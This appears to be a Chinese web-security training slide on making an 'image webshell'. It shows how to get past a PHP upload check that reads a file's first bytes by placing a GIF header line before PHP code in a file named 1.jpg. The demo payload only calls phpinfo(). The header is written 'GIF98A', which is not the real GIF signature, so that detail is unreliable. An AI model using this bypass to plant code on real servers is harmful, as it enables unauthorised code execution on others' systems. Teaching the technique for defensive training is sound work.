

图片Webshell制作
在服务端的PHP代码中，对于用户上传的文件做文件类型检查，查看文件格式是否符合上传规范。可以检查文件二进制格式的前几个字节，从而判断文件类型是否正确。
针对这种情况可以直接新建要给1.jpg,其中代码内容如下

GIF98A
<?php
	phpinfo();

?>